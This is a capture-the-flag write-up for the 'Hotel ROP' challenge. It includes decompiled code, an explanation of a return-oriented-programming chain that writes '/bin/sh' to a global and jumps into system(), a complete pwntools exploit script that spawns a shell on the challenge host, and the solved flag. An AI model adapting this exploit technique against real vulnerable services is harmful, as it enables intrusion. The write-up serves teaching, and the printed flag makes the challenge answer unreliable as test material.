 # Hotel ROP

They say programmers' dream is California. And because they need somewhere to stay, we've built a hotel!
nc dctf1-chall-hotel-rop.westeurope.azurecontainer.io 7480

## Challenge

ROP challenge that requires a global variable to be set up prior to a `system` call.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Stage 1

```c
void sym.california(void)
{
    sym.imp.puts("Welcome to Hotel California");
    sym.imp.puts("You can sign out anytime you want, but you can never leave");
    obj.win_land[_obj.len] = (code)0x2f;
    _obj.len = _obj.len + 1;
    obj.win_land[_obj.len] = (code)0x62;
    _obj.len = _obj.len + 1;
    obj.win_land[_obj.len] = (code)0x69;
    _obj.len = _obj.len + 1;
    obj.win_land[_obj.len] = (code)0x6e;
    _obj.len = _obj.len + 1;
    return;
}
```

### Stage 2

```c
void sym.silicon_valley(void)
{
    sym.imp.puts("You want to work for Google?");
    obj.win_land[_obj.len] = (code)0x2f;
    _obj.len = _obj.len + 1;
    obj.win_land[_obj.len] = (code)0x73;
    _obj.len = _obj.len + 1;
    obj.win_land[_obj.len] = (code)0x68;
    _obj.len = _obj.len + 1;
    obj.win_land[_obj.len] = (code)0x0;
    _obj.len = _obj.len + 1;
    return;
}
```

### Stage 3

```c
void sym.loss(uint32_t arg1, int64_t arg2)
{
    uint32_t var_4h;
    
    if ((int32_t)arg2 + arg1 == -0x21523f22) {
        sym.imp.puts("Dis is da wae to be one of our finest guests!");
        if (arg1 == 0x1337c0de) {
            sym.imp.puts("Now you can replace our manager!");
            sym.imp.system(obj.win_land);
            sym.imp.exit(0);
        }
    }
    return;
}
```

## Solution

The `california` and `silicon_valley` functions, when called in that order, will write `"/bin/sh"` to the `win_land` global variable.

The `loss` function will call system on whatever is stored in the `win_land` global variable.
`loss` also requires that 2 arguments are set to specific values, but this can be bypassed by jumping directly to the system call.

Using a buffer overflow, we can call these 3 functions to spawn a shell.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host dctf1-chall-hotel-rop.westeurope.azurecontainer.io --port 7480 hotel_rop
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('hotel_rop')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'dctf1-chall-hotel-rop.westeurope.azurecontainer.io'
port = int(args.PORT or 7480)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.recvuntil("street ")

leak = io.recvuntil("\n", drop=True)

main = int(leak, 0)
exe.address = main - 0x0000136d

io.success(hex(exe.address))

payload = flat({
    0x20 + 0x8: [
        exe.sym["california"],
        exe.sym["silicon_valley"],
        exe.address + 0x000011c3,
        ],
    })

io.sendline(payload)

io.interactive()
```

## Flag

`dctf{ch41n_0f_h0t3ls}`

